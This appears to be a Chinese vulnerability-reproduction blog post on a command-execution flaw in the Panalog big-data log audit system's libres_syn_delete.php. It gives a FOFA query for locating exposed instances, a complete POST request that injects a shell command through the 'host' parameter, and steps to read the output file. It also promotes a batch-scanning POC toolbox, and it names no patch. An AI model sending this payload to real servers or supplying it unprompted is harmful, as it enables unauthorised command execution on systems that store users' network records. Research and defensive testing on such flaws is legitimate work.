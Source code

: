 #  Panalog大数据日志审计系统libres_syn_delete.php存在命令执行漏洞 附POC软件   
南风徐来  南风漏洞复现文库   2024-02-17 23:46  
  
@[toc]  
# Panalog大数据日志审计系统libres_syn_delete.php存在命令执行漏洞 附POC软件  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Panalog大数据日志审计系统libres_syn_delete.php简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
panalog为一款流量分析,日志分析管理的一款软件。  
## 2.漏洞描述  
  
Panalog大数据日志审计系统定位于将大数据产品应用于高校、 公安、 政企、 医疗、 金融、 能源等行业之中，针对网络流量的信息进行日志留存，可对用户上网行为进行审计，逐渐形成大数据采集、 大数据分析、 大数据整合的工作模式，为各种网络用户提供服务。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
Panalog大数据日志审计系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJyAONzcZT0pwszX04Bg9wAxC7ur8wCp2toZyibfFGjN7p22t3uKo99YHYibDd4WPZYEPt1mic2sqLg/640?wx_fmt=jpeg&from=appmsg "null")  
  
Panalog大数据日志审计系统libres_syn_delete.php存在命令执行漏洞  
## 4.fofa查询语句  
  
app="Panabit-Panalog"  
## 5.漏洞复现  
  
漏洞链接：https://127.0.0.1/content-apply/libres_syn_delete.php  
  
漏洞数据包：  
```
POST /content-apply/libres_syn_delete.php HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Length: 33
Content-Type: application/x-www-form-urlencoded

token=1&id=2&host=|id >990996.txt
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJyAONzcZT0pwszX04Bg9wd98xXgl8nzM0tJOyvacPFwiaqD6uZbfynvGNtaPnXBHZ12zp4Tp3yoQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
访问生成的文件路径： https://127.0.0.1/content-apply/990996.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJyAONzcZT0pwszX04Bg9wXhcWcPHpLibyia8pQpIGr9MUiamKZmpK7cD5ibibT3pT6GDd6Ziaxc1JnmIw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJyAONzcZT0pwszX04Bg9w7ia4M3YGAWOs2OWzN0t5IB8C7tyDUD8sMKicA1rqUEY3jD4xmajKu4Kw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJyAONzcZT0pwszX04Bg9wY1kicoIDdMandKhlF28LjeGYNRmdmmFF6UD3NaZJHPdekg1umJ9k4vQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJyAONzcZT0pwszX04Bg9wZR7Sqjr3pIpZS9MJSEZzgT5uOppawicja71Nbiaj1cRNoLtAa8icnO0kQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJyAONzcZT0pwszX04Bg9w2aukDyQUt6Q7pBUQKjq3ibjPh3ZPxpNaY10ICtRnqnfYMKZOEwcjasg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJyAONzcZT0pwszX04Bg9wSfcTaMachNlGRBq1k7OZMnI95p8gQYyKLrNzuXTTSLp8Spdh55lRDw/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
目前厂商尚未提供相关漏洞补丁链接，请关注厂商主页及时更新：https://www.panabit.com/  
## 8.往期回顾  
  
[金盘移动图书馆系统存在任意文件上传漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485229&idx=1&sn=25b32c046e96773293be14528f1f60df&chksm=974b8a2aa03c033c3527f7c4c1c17dba8cbdada686c18166e1f93712410ae27db018d2b025ea&scene=21#wechat_redirect)  
  
  
[金和OA UploadFileBlock接口存在任意文件上传漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485216&idx=1&sn=0fdeec8a135b1ce0a248d117e96dff89&chksm=974b8a27a03c03311b1410166e9fe0198c5d30318b163e7665c27615f33394580488719a974d&scene=21#wechat_redirect)  
  
  
  
  
